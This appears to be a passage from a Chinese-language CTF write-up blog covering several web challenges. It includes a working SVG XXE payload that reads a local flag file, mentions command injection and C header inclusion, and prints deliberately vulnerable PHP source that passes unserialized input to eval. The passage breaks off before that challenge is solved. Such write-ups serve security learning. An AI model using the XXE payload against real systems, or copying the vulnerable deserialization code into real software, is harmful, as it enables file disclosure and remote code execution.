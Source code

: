 filename 处存在命令注入

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211161425452.png)

查看 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211161432705.png)

## [FireshellCTF2020]Caas

通过 c 语言头文件包含 flag

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211161455457.png)

## [BSidesCF 2019]SVGMagic

svg xxe, flag 名字需要自己猜...

参考文章 [https://zhuanlan.zhihu.com/p/323315064](https://zhuanlan.zhihu.com/p/323315064)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="1000" width="10000">
  <text x="10" y="20">&file;</text>
</svg>
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211161527187.png)

## [极客大挑战 2020]Greatphp

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```
